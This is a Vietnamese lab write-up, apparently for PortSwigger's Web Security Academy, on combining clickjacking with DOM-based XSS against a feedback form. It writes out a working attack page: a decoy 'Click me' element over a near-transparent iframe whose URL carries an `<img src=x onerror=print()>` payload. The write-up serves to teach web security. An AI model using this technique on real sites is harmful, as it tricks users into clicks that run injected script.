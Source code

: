 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

Mục tiêu là craft html độc hại dựa trên lỗ hổng DOM-base XSS để call đến hàm print().

Trang web này không có chức năng đăng nhập nữa mà thay vào đó chúng ta thấy có 2 chức năng để gửi input :

+ `Submit feedback` được liên kết trên đầu trang
+ `comment` ở mỗi bài viết

Khi duyệt trang, burp xác nhận cho cả hai trang là chúng có thể đóng khung:

![image](https://user-images.githubusercontent.com/68894302/175196809-fc06ca7f-2463-41ed-9984-46bfbdee7dbe.png)
![image](https://user-images.githubusercontent.com/68894302/175196856-012b457a-b70e-43cd-8cee-aae1347bb9ff.png)

Chúng ta sẽ test trường hợp feedback trước.

Sử dụng pre-fill để điền trước nội dung, mục đích là để đưa nội dung tùy ý vào DOM của trang.

![123](https://user-images.githubusercontent.com/68894302/175197736-6ba5776f-b577-4ae5-b3c1-3faf9747ff31.png)

Đầu tiên thử `"<script` để thoát ra khỏi ngữ cảnh nhưng quan sát thấy rằng nó đã bị mã hóa 

![image](https://user-images.githubusercontent.com/68894302/175197951-81baca54-d024-44e0-b4a8-8a172e0240e5.png)

Nhìn vào tập lệnh tham chiếu này thấy một inject point

![image](https://user-images.githubusercontent.com/68894302/175198321-1411b06e-77d8-4ed8-b7ad-4edc1cdae4d9.png)

Nhưng chèn `<script>` không hoạt động. Trình duyệt đã phân tích cú pháp trang cho các khối tập lệnh, bất kỳ khối tập lệnh nào được thêm vào bây giờ sẽ chỉ nằm ở đó mà không được thực thi.

## Craft malicious HTML

``` html
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<iframe id="vuln_site" src="https://0a8400b40389ef0fc03f07cf00e30058.web-security-academy.net/feedback?name=<img+src=x+onerror=print()>&email=a@a&subject=b&message=c">
</iframe>
```

![image](https://user-images.githubusercontent.com/68894302/175199432-750f6d54-dba9-4bb0-8462-c9111e75d460.png)

OK mọi thứ đã tự động được điền, sửa lại Click me và opacity=0.00001 

![image](https://user-images.githubusercontent.com/68894302/175199768-f9597c90-7cd2-4d92-8261-2d1ee2c4c829.png)

![image](https://user-images.githubusercontent.com/68894302/175202396-c9b6a9df-7a77-4394-8c22-ad7423a8e8de.png)
